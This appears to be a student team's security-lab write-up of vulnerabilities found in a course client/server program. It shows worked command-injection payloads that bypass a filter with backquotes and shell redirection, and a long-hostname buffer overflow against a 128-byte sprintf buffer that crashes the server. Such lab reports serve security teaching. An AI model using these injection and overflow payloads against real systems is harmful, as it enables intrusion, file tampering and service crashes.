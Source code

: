 ## Team 4

### Command Injection

* Using echo command. Only | and ; are filtered to check for multiple commands. We can use backquotes.
```
echo `uname -a`
Linux mc02.cs.purdue.edu 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 
UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

```

* Using ping command. The redirect operators are not filtered. We can use this to overwrite writable files.

```
ping google.com>vulnerable_file
ls
total 10480
-rwxr-x--- 1 njaganna njaganna 5309312 Mar 25 08:59 client
drwxrwxr-x 2 njaganna njaganna    4096 Mar 14 19:49 include
-rw-rw-r-- 1 njaganna njaganna    2440 Mar 14 19:49 Makefile
drwxr-x--- 6 njaganna njaganna    4096 Mar 25 08:59 obj
-rwxr-x--- 1 njaganna njaganna 5391136 Mar 25 08:59 server
-rw-r----- 1 njaganna njaganna     385 Mar 25 08:58 sploit.conf
drwxrwxr-x 6 njaganna njaganna    4096 Mar 14 19:49 src
-rw-r----- 1 njaganna njaganna     286 Mar 25 09:49 vulnerable_file
```

### Buffer Overflow

* The ping command is constructed using a buffer of size 128. We can overflow this by giving a hostname which exceeds the size.
```
char pingcmd[128];
sprintf(pingcmd, "ping %s", host.c_str());

Client:
ping first
ping AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAA 

Server:
ping: unknown host first
Segmentation fault (core dumped)
mc02 60 $ 
```
